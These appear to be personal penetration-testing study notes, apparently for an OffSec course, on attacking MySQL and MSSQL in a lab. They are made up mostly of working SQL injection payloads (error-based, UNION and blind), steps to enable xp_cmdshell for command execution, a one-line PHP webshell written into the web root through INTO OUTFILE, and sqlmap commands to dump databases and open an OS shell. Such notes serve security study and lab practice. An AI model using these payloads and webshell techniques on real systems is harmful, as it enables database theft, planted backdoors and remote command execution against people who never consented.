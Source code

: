 # DB Types and Characteristics

- MySQL
	- mysql -u root -p 'root' -h 192.168.50.16 -P 3306
		- version();
		- select system_user();
		- show databases;
		- SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
- MSSQL (windows)
	- SQLCMD
		- allows SQL commands through windows cmd or remotely
	- Impacket
		- python framework
		- supports TDS (MSSQL)
			- impacket-mssqlclient
		- Example:
			1. impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
				- -windows-auth forces NTLM over Kerberos
			2.  SELECT @@version;
			- If not using MSSQL TDS protocol, sqlcmd requires GO on seperate line
			3. SELECT name FROM sys.databases;
			4. select * FROM offsec.information_schema.tables;
			5. select * from offsec.dbo.users;
# Manual SQL Exploitation
## SQLi via Error-based payloads

- in-band SQLi = query result displayed & app-returned value

1. Prematurely terminate SQL statement
	- username' OR 1=1 -- //
		- ends up being this:
			- SELECT * FROM users WHERE user_name= 'username' OR 1=1 --
		- 1=1 will always be true:
			- returns first name
2. Enumerate
	- ' or 1=1 in (select @@version) -- //
	- ' OR 1=1 in (SELECT * FROM users) -- //
3. Selecting one entry
	- ' or 1=1 in (SELECT password FROM users) -- //
4. Adding a where clause to identify
	- ' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
## UNION-based Payloads
- Same number of columns in both queries & data types compatible 
- Example:
	- \$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
	- Discover correct number of columns
		- ' ORDER BY 1-- //
			- will fail if not correct amount
	- Enumerate
		- %' UNION SELECT database(), user(), @@version, null, null -- //
	- Shifting columns
		- ' UNION SELECT null, null, database(), user(), @@version  -- //
	- Enumeration information schema
		- ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
	- Dumping users table
		- ' UNION SELECT null, username, password, description, null FROM users -- //
## Blind SQL Injections
- Time based or Boolean
- Boolean
	- http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
- Time based
	- http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
	- 
## Manual Code Execution
- xp_cmdshell
	- Microsoft SQL Server function
	- used by EXECUTE instead of SELECT
- Impacket
	1.  impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
	2. EXECUTE sp_configure 'show advanced options', 1;
		- Enabling advanced options
	1. RECONFIGURE;
		- Apply configuration
	2. EXECUTE sp_configure 'xp_cmdshell', 1;
		- Enabling xp_cmdshell
	3. RECONFIGURE;
	4. Test
		- EXECUTE xp_cmdshell 'whoami';
- SELECT INTO_OUTFILE
	- Can be abused for RCE
	1. UNION SELECT to include PHP line into the first column and save it as webshell.php
		- ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
		- File will include
			- <? system($_REQUEST['cmd']); ?>
	 2. http://192.169.120.19/tmp/webshell.php?cmd=id
## Automating the Attack
- [[sqlmap]]
	- [NO STEALTH]
	- Example:
		- sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
			- -u for URL
			- -p for parameter 
		- Dump entire database with --dump
			- sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
		- --os-shell
			- interactive shell
			- not ideal with time-based
			-  Intercept POST request via Burp & save it to local txt file.
				- ```
```POST /search.php HTTP/1.1
Host: 192.168.50.19
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.50.19
Connection: close
Referer: http://192.168.50.19/search.php
Cookie: PHPSESSID=vchu1sfs34oosl52l7pb1kag7d
Upgrade-Insecure-Requests: 1

item=test
```
- sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
	- -r to use file as post message
	- -p item for parameter
	- --os-shell for shell
	- --web-root for ???
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md
- PostGreSQL
	- psql --help